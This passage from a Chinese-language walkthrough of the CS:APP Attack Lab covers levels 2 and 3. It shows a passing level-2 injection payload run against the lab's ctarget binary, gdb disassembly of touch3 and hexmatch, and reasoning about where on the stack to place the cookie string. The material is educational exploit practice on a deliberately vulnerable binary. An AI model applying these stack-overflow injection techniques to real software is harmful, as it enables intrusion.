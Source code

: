 ```bash
root@da1811a84ddc:~/csapp/03Attack Lab/target1# ./hex2raw < 2.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55
```

### Level3

第三关需要调用 `touch3`,同时参数是一个字符串的地址,这个字符串是我们的cookie

与上一关不同是这里需要存储一个字符串,并且将首地址放入rdi,而不是直接给rdi赋值

那么我们就应该把这个字符串存放在栈中,可以放在40个字节这个空间中也可以放在返回地址更高地址的地方

但实际上并不能放在40个字节这个空间中,因为可以通过反汇编查看到 `touch3` `hexmatch` 函数进行了多次的压栈操作

```txt
(gdb) disas touch3
Dump of assembler code for function touch3:
   0x00000000004018fa <+0>:     push   %rbx
   0x00000000004018fb <+1>:     mov    %rdi,%rbx
   0x00000000004018fe <+4>:     movl   $0x3,0x202bd4(%rip)        # 0x6044dc <vlevel>
   0x0000000000401908 <+14>:    mov    %rdi,%rsi
   0x000000000040190b <+17>:    mov    0x202bd3(%rip),%edi        # 0x6044e4 <cookie>
   0x0000000000401911 <+23>:    callq  0x40184c <hexmatch>
   ...

(gdb) disas hexmatch
Dump of assembler code for function hexmatch:
   0x000000000040184c <+0>:     push   %r12
   0x000000000040184e <+2>:     push   %rbp
   0x000000000040184f <+3>:     push   %rbx
   0x0000000000401850 <+4>:     add    $0xffffffffffffff80,%rsp
   ...
```

touch3中push一次,callq一次,hexmatch中push3次. 这样就已经挤占了0x28的空间,显然即使将字符串保存在0x28位置的栈中也会由于后续的压栈操作而被覆盖,所以我们考虑将这个字符串保存到更高地址的位置

我们首先将cookie转换字符串,并且输出其ASCII的值

```c
#include <stdio.h>
#include <string.h>
int main() {
    char *str = "59b997fa";
    for (int i=0;i<strlen(str);i++) printf("%x ",str[i]);
    printf("\n");
    return 0;
}
```
